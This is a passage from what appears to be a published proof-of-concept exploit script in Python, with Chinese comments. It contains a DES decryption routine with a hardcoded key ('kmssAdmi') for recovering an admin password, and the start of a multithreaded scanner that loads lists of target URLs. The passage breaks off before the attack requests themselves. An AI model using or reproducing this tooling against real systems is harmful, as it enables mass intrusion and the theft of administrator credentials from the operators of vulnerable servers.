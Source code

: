 &emsp;&emsp;源代码：

```python
# -*- coding: utf-8 -*-

import os
import csv
import time
import requests
from threading import Lock
from concurrent.futures import ThreadPoolExecutor
from argparse import ArgumentParser

from Crypto.Cipher import DES
import base64
requests.packages.urllib3.disable_warnings()


class EncryptDate:
    def __init__(self, key):
        self.key = key
        self.length = DES.block_size
        self.aes = DES.new(self.key, DES.MODE_ECB)
        self.unpad = lambda date: date[0:-ord(date[-1])]

    def pad(self, text):
        count = len(text.encode('utf-8'))
#        print(count)
        add = self.length - (count % self.length)
 #       print(add)
        entext = text + (chr(add) * add)
  #      print(entext)
        return entext

    def decrypt(self, decrData):  # 解密函数
   #     print('正在解密密文')
        res = base64.decodebytes(decrData.encode("utf8"))
        msg = self.aes.decrypt(res).decode("utf8")
        return msg
    #    print('解密成功admin的密码为：'+msg)

cr = EncryptDate(b'kmssAdmi')

requests.packages.urllib3.disable_warnings()

class POC:
    def __init__(self):
        self.banner()
        self.args = self.parseArgs()
        self.init()
        self.urlList = self.loadURL()  # 所有目标
        self.multiRun()
        self.start = time.time()

    def banner(self):
    	pass
    def init(self):
        print("\nthread:", self.args.thread)
        print("timeout:", self.args.timeout)
        msg = ""
        if os.path.isfile(self.args.file):
            msg += "Load url file successfully\n"
        else:
            msg += f"\033[31mLoad url file {self.args.file} failed\033[0m\n"
```